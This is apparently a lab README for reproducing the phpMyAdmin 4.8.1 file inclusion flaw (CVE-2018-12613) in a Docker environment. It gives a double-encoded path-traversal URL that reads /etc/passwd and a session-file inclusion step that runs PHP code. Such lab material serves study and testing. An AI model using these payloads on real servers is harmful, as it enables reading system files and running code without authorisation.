 # phpmyadmin 4.8.1 Remote File Inclusion Vulnerability (CVE-2018-12613)

[中文版本(Chinese version)](README.zh-cn.md)

PhpMyAdmin is a free software tool written in PHP, intended to handle the administration of MySQL over the Web. The vulnerability is in the `index.php`, causing  files iclusion vulnerabilitiy.

Reference links:

- https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog
- https://www.phpmyadmin.net/security/PMASA-2018-4/

## Setup

Run the following command to start phpmyadmin 4.8.1:

```
docker compose up -d
```

After the environment starts, visit `http://your-ip:8080`. The phpmyadmin is "config" mode, so we can login directly.

## Exploit

Visit `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`, the result indicates that the file inclusion vulnerability exist:

![](1.png)

We can execute `SELECT '<?=phpinfo()?>';`, then check your sessionid (the value of phpMyAdmin in the cookie), and then include the session file:

![](2.png)
